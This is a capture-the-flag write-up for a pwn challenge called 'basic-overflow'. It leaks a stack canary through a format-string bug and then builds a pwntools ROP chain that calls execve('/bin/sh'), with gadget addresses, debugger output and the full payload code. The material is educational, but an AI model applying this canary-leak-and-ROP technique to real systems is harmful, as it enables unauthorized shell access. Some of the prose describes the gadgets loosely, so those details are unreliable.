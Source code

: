# Writeup for "basic-overflow"

## 1. Initial recon

Again, we always start with checksec:
```
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
No PIE, but canary is enabled. To overflow you must first leak the canary. 

I remember a similar challenge written by a friend for blahaj24 that also has canary enabled, but the solve was to abuse uninitialised variable scanf arb write rather than leaking canary, anyway not relevant here.

My dumbass actually thought I should make the output equal to "purple", but apparently not so.

This is because:
```
    if (choice == "Purple") { // choice here is the pointer, not the value.
        printf("You are correct! Here is your flag: grifflesCTF{fake_flag}");
```
Note that choice here is a pointer, so it tries to equate a POINTER to the value "Purple", which would basically always return false.

After looking at the code

```
    gets(name); // overflow 1
    ...
    printf(name);
```

We can see that this function is vulernable to string format attack (from experience lmao, if no format is specified sending it %x will leak the stack).

Hence, i sent it basically a lot of %llx and %llp to leak the stack, but eventually obtain repeated values

Decoding said repeated values made me realise i sent to much %llx and it is overwriting the stack itself resulting in it printing out more %llx's on the stack.

Simple solve though: Just use %x$p, where x is the position, to leak more stack data. 

# 2. Exploitation of strfmt vuln

By comparing output of x/x $rbp-0x8 (From pwndbg) to the stack canary, we eventually figure out that leaking the stack with %15$p will provide us with the stack canary in the first printf output.

Using the canary value and the offset to the canary, we simply craft the payload:
```
payload = b"A" * offset_to_canary
    payload += p64(canary)     # Overwrite canary with its own value
```
to be able to arb write after that.

I found the static offset of the line where flag is supposedly printed, but apparently the fake flag is in the actual executable? (Not too sure on this one), so there's actually no win func to jump to.

No matter, just ROP my way out of this again

# 3. Ropping (Very painful)

Here's the rop gadgets we need:
1. ret (to align stack)
2. pop rdi 
3. pop rax
4. pop rsi
5. pop rdx
(These are needed to construct arguments to execve)
6. Some kinda mov function, specifically mov [reg1], reg2: Moves value of reg2 into POSITION of reg1 (to move /bin/sh into a register)
7. system() call


Other things we need: 
1. Position of writable memory to write /bin/sh onto 

After initial finding with python rop, we are missing some gadgets. namely,
- we dont have pop rdx
- no mov [reg1], reg2, specifically one that moves something into position of rax

Using ropper we are able to find all avaliable gadgets.
- There's a pop rdx gadget, but it has a side effect of also popping rbx
`0x000000000048618b: pop rdx; pop rbx; ret; `
- There's a mov rax, rdi gadget, but it has a side effect of also scrambling rax. No biggie though.
```
pwndbg> x/i 0x00000000004475a0
   0x4475a0 <__memset_sse2_unaligned_erms+224>: mov    QWORD PTR [rax],rdi
pwndbg> x/10i 0x45285b
   0x45285b <_dl_get_tls_static_info+11>:       mov    QWORD PTR [rdi],rax
   0x45285e <_dl_get_tls_static_info+14>:
    mov    rax,QWORD PTR [rip+0x74d73]        # 0x4c75d8 <_dl_tls_static_align>
   0x452865 <_dl_get_tls_static_info+21>:       mov    QWORD PTR [rsi],rax
   0x452868 <_dl_get_tls_static_info+24>:       ret
```

We will have to go with it..

After that, we can just ROP our way out of this.

Final payload:

```
payload = b"A" * offset_to_canary
    payload += p64(canary)     # Overwrite canary with its own value
    payload += p64(ret_g)      # Overwrite saved RBP (ret_g is fine, acts as a dummy RBP or alignment)

    # ROP Chain for execve("/bin/sh", NULL, NULL)
    
    # 1. Set up RSI and RDX for execve. These are done first as they are not
    #    clobbered by the subsequent string write operations.
    payload += p64(pop_rsi)
    payload += p64(writable_area + 40)
    
    payload += p64(pop_rdx_rbx)
    payload += p64(0)
    payload += p64(0) # Set rbx to null as well

    #    RAX = binshstr_qword
    payload += p64(pop_rax)
    payload += binshstr_qword            
    #    RDI = writable_area (where "/bin/sh\0" will be written)
    payload += p64(pop_rdi)
    payload += p64(writable_area)         
    

    payload += p64(mov_rax_rdi)      # Side effect: RSI must be valid

    # /bin/sh moved into rdi location

    payload += p64(pop_rsi)
    payload += p64(0) # Reset RSI

    payload += p64(pop_rax)
    payload += p64(execve_id)                 # RAX = 0x3b (syscall number for execve)
    
    payload += p64(syscall_g)                 # Execute syscall

    log.info("Sending the exploit payload...")
    r.sendline(payload)
```